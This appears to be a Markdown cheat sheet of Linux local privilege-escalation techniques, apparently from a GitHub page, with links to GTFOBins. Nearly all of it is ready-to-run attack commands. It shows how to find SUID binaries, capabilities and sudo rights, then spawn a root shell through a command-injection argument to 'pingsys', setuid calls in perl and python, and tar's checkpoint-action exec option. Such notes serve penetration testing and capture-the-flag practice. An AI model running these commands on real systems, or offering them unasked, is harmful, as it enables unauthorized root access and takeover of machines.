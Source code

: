 # PINGSYS
```
find / -perm /4000 -type f 2>/dev/null           
```   
If pingsys
```
/usr/bin/pingsys '127.0.0.1;/bin/sh'
```

# CAPABILITIES - perl
https://gtfobins.github.io/gtfobins/perl/
```    
getcap -r / 2> /dev/null
```
If:
/usr/bin/perl = cap_setuid+ep
```
/usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```
# CAPABILITIES - python
https://gtfobins.github.io/gtfobins/python/#suid
```
find / -user root -perm /4000
```
If:
/usr/bin/python
```
/usr/bin/python -c 'import os; os.setuid(0); os.system("/bin/sh")'
```
# .. /tar
https://gtfobins.github.io/gtfobins/tar/
```
sudo -l
```
If:
User ??? may run the following commands on ???: 

   (root) /bin/tar
```    
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```
